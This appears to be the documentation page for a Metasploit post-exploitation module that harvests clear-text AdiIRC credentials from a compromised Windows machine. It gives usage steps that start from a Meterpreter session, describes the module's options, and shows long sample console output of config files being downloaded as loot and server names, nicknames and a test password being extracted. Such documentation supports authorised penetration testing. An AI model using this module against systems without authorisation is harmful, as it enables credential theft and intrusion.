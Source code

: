 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from the Adi IRC Client.

  The Adi IRC Client is avaialble from (https://www.adiirc.com/).

  This module extracts information from the config.ini and networks.ini files in the "AppData\Local\AdiIRC" directory.

  This module extracts server information such as server name, server port, user name, and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/adi_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Adi irc's Config file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083920_default_10.0.0.2_AdiIRCconfig.ba_051695.bak

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_949744.bak
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCconfig.in_618977.ini

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_981500.ini
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCnetworks._976889.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_EXTRACTIONconfig_407804.ini
[*] Adi irc's Networks file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._497206.ini

[*] undefined method `each' for nil:NilClass
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._102963.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### Verbose Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Adi irc's base folder not found in user's user directory

[-] Adi irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for config.
[*] Adi irc's Config file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083813_default_10.0.0.2_AdiIRCconfig.ba_900175.bak

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_209914.bak
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCconfig.in_918837.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_383684.ini
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._579169.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_073623.ini
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for networks.
[*] Adi irc's Networks file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._045399.ini

[*] undefined method `each' for nil:NilClass
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083815_default_10.0.0.2_AdiIRCnetworks._439992.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed


```
